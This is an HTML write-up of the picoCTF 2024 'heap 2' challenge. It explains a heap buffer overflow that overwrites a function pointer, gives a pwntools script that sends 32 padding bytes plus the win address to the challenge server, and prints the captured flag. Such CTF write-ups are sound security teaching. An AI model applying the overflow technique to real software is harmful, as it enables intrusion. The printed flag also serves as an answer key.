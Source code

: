 
<!DOCTYPE html>
<html>

<body>
    <h1>heap 2- picoctf2024</h1>

    <h2>Challenge Description</h2>
    <p>   AUTHOR: ABRXS, PR1OR1TYQ

Description
Can you handle function pointers?
Download the binary <a href="https://artifacts.picoctf.net/c_mimas/49/chall">here</a> .
Download the source <a href="https://artifacts.picoctf.net/c_mimas/49/chall.c">here</a> .
Additional details will be available after launching your challenge instance.
-------------------------------------------------------
Connect with the challenge instance here:
nc mimas.picoctf.net 52816 
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
      we download file and run file and see this output
<pre>
./chall

I have a function, I sometimes like to call it, maybe you should change it

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x4a06b0  ->   pico
+-------------+-----------+
[*]   0x4a06d0  ->   bico

1. Print Heap
2. Write to buffer
3. Print x
4. Print Flag
5. Exit

Enter your choice: 
</pre>
it is like <a href="https://phantom1ss.github.io/blog/2024/pico2024/heap1/writeup1.md">heap1</a>. with gdb get address of win
 <img src=" https://phantom1ss.github.io/blog/2024/pico2024/heap2/gdb.png" alt="ctf quetion image" class="inline"/>
and add it after 32 bit address(becaouse change value after it) not working why see <a href="https://phantom1ss.github.io/blog/2024/pico2024/heap2/chall.c">source</a> code and see that we can't enter address of win in hex so use p64(address)+32 char and it work or run  this code and get flag(for using in another challenges too)
</pre>
<pre>

from pwn import *

context.log_level = 'debug'

def main():
    # Connect to the remote service
    p = remote('mimas.picoctf.net', 52113)

    # Step 1: Send "2" and receive the response
    print(p.recvuntil("Enter your choice: "))
    p.sendline("2")

    # Step 2: Send some data and receive the response
    #print(p.recvuntil("Data for buffer: "))
    payload = b'A' * 32
    payload += p64(0x4011a0)#address of win
    p.sendline(payload)

    # Step 3: Send "3" and receive the response
    print(p.recvuntil("Enter your choice: "))
    p.sendline("4")

    # Receive and print any remaining output
    print(p.recvall())

if __name__ == '__main__':
    main()

</pre>
  
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{and_down_the_road_we_go_dde41590}
</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for solve binary exploitation and heap overflow with python and pwn and gdb</p>
</body>
</html>

 


 


